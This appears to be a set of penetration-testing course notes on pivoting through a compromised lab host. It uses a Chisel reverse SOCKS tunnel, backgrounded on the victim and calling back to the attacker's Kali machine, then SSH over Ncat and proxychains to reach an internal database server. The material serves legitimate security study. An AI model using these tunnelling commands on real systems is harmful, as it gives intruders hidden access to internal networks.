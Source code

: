 Chisel can run on macOS, Linux, and Windows, and on various architectures on each.

We will run a Chisel **server** on our Kali machine, which will accept a connection from a Chisel client running on CONFLUENCE.

- Chisel will bind a **SOCKS** proxy port on the Kali machine.

- The Chisel server will encapsulate whatever we send through the SOCKS port and push it through the HTTP tunnel, SSH-encrypted.

- The Chisel client will then decapsulate it and push it wherever it is addressed.

```bash
chisel server --port 8080 --reverse
```

Connect to the server running on our Kali machine (192.168.118.4:8080)
- Creating a reverse SOCKS tunnel (`R:socks`).

- The R prefix specifies a reverse tunnel using a socks proxy (which is bound to port **1080** by default).

- The remaining shell redirections (`> /dev/null 2>&1 &`) force the process to run in the background, which will free up our shell

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

```bat
chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
```

**SSH** doesn't offer a generic **SOCKS proxy** command-line option. Instead, it offers the **ProxyCommand** configuration option. We can either write this into a configuration file, or pass it as part of the command line with -o. **ProxyCommand** accepts a shell command that is used to open a proxy-enabled channel.

The **OpenBSD** version of Netcat, which exposes the **-X** flag and can connect to a SOCKS or HTTP proxy. However, **the version of Netcat that ships with Kali doesn't support proxying.**

=> use **Ncat**, the Netcat alternative written by the maintainers of Nmap.

Tells Ncat to use the socks5 protocol and the proxy socket at 127.0.0.1:1080. The %h and %p tokens represent the SSH command

```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

Update `/etc/proxychains4.conf`: `socks5 127.0.0.1 1080` (same result as the above command)

```bash
proxychains ssh database_admin@10.4.50.215
```

HTTPTunnel-ing

```bash
sudo apt install httptunnel
```
